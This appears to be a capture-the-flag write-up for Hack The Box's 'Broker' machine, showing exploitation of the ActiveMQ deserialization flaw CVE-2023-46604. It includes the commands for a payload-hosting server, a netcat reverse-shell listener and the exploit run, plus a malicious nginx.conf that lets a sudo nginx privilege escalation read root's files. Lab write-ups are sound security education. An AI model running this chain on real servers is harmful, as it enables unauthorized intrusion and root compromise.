


<!--  -->

Observe how I demonstrate how a vulnerabilty with the rare CVSS score of 10.0 easily leads to unauthorized system access and compromise in Broker.

<!--more-->

## 1. Summary

{}
Broker is a simple boot-to-root machine on Hack the Box. It is designed to facilitate communication between different applications and services using a popular open-source message broker, ActiveMQ. Upon its release, Broker highlights the far-reaching implications of a known vulnerability being actively exploited in the wild. These exploitations often lead to data breaches, operational disruptions, financial loss, and reputational damage for the victims. In this exercise, I will exploit the flaw to gain a foothold, then demonstrate how to escalate privileges to root. While the vulnerability could potentially be used to establish persistence, I did not do so in this case.
{}

## 2. Enumeration

As always, I begin my assessment by setting up my workspace and starting an `nmap` scan to identify open ports and services. For my new readers, this helps me review the running services and test for potential vulnerabilities.

```bash
# Workspace Setup
target='broker'
mkdir $target
touch $target/creds.txt
touch $target/computers.txt
target_ip='10.129.230.87'
```

### A. Network Enumeration

```bash
# nmap scan with version and script detection (-sV, -sC) on all ports (-p-)
sudo nmap -Pn -sV -sC -oA $target/nmap -p- $target_ip
```




The scan results show several open ports, some of which are familiar, and others that are not.

- Port 22 (SSH)
- Port 80 (HTTP)
- Port 1883 (MQTT)
- Port 5672 (AMQP)
- Port 8161 (HTTP for Jetty)
- Port 44241 (TCPWrapped)
- Port 61613 (Apache ActiveMQ)
- Port 61614 (HTTP for Jetty)
- Port 61616 (ActiveMQ OpenWire Transport)

I know the target host is serving an HTTP server on port 80 and is open to remote connections through SSH on port 22. However, before I start testing for vulnerabilities on those two services, I decide to review the services that I am unfamiliar with, MQTT, ActiveMQ, and ActiveMQ OpenWire Transport.

### B. Researching Known Vulnerabilities

```bash
# Searching for known vulnerabilities
searchsploit Apache ActiveMQ
```

I start my research using searchsploit to look for known vulnerabilities in Apache ActiveMQ. While I review the results, none of them seem relevant to my current situation, so I switch to online sources for further investigation. I search for information prior to the release of Broker. If there is information published after its release date, there is a strong chance that anything I find will contain answers and spoilers, defeating the purpose of attempting this challenge.

One of the first search results is a Rapid7 [article](https://www.rapid7.com/blog/post/2023/11/01/etr-suspected-exploitation-of-apache-activemq-cve-2023-46604/) mentioning an insecure deserialization flaw in ActiveMQ OpenWire Transport. The flaw allows an attacker to send specifically crafted data causing the system to run malicious commands, potentially taking control of it. The article also links a proof of concept for the exploit by an ethical hacker under the pseudonym, X1r0z. In addition to the the article, I find a Python variation of the [proof of concept](https://github.com/evkl1d/CVE-2023-46604) in my research.

## 3. Exploitation

After cloning the repository, I modify the Python exploit to launch a reverse shell.

```bash
# Cloning a copy of the exploit to my pwnbox
git clone https://github.com/evkl1d/CVE-2023-46604.git
```


I use a simple Python HTTP server to host the payload file and start a netcat listener to catch my reverse shell.

```bash
# Hosting the file using a python server
python3 -m http.server
```

```bash
# Starting a netcat listener in another terminal to catch the shell
nc -nvlp 9000
```


```bash
# Running the exploit
python3 exploit.py -i $target_ip -u http://10.10.14.96:8000/poc.xml
```


## 4. Initial Foothold

In the window with my netcat listener, I can see that the exploit ran successfully. From here, I start enumerating the host to determine my next steps and, hopefully, to privilege escalation.



After running some initial enumeration commands, I confirm that I have access to the user flag.

```bash
# Performing basic enumeration of the host
id

ls /home/activemq
```


```bash
# Capturing the flag
cat /home/activemq/user.txt
```


After capturing the flag, my next step is to determine the level of `sudo` privileges for the current account by running `sudo -l`.

```bash
# Checking sudo privileges
sudo -l
```


The output reveals that the current account can run the nginx binary as root without using passwords. NGINX is an open-source web server. Running the binary allows the user to start an NGINX server. I suspect that the binary will be my path to privilege escalation since it can be ran in the context of root. Before researching online potential vulnerabilities, I check the version of currently installed.

```bash
# Checking nginx version and capabilities
sudo /usr/sbin/nginx -V
```


Afterwards, I search online for any relevant local root escalation exploits. One of the results leads me to an [article](https://darrenmartynie.wordpress.com/2021/10/25/zimbra-nginx-local-root-exploit/) that discusses an exploit allowing a user to run nginx with a custom configuration file using the `-c` flag. By including `user root` in a malicious configuration file, an attacker can request system resources as root. Below is a screenshot of the proof of concept by the author.


## 5. Privilege Escalation

I extract the portions that I need and create the file `nginx.conf` in the `/tmp` directory. Since I don’t need to establish persistence, I change the target file to the root flag instead of `/etc/shadow` .

```bash
# Malicious Configuration File
vim /tmp/nginx.conf

user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
worker_connections 768;
}
http {
	server {
   	listen 1337;
   	root /;
    autoindex on;
	}
}
```


Next, I run `sudo /usr/sbin/nginx -c /tmp/nginx.conf` .

```bash
# Running nginx
sudo /usr/sbin/nginx -c /tmp/nginx.conf
```


I verify that the server is up and running using the `ss` command.

```bash
# Verifying the server is running by verifying listening ports
ss -tln
```


Then I proceed to request the root flag in a separate terminal using the `curl` command.

```bash
# Capturing the root flag
curl http://$target_ip:1337/root/root.txt
```


## 6. Conclusion

In this write-up, I demonstrated how to exploit the CVE-2023-46604 vulnerability in Apache ActiveMQ to gain an initial foothold on the Broker machine. By leveraging an insecure deserialization flaw in ActiveMQ's OpenWire protocol, I was able to execute malicious code and gain access to the system. After obtaining user-level access, I escalated privileges using a local root exploit and taking advantage of an overprivileged NGINX binary.

While I didn't establish persistence in this case, attackers could easily use similar flaws for long-term access if left unaddressed.


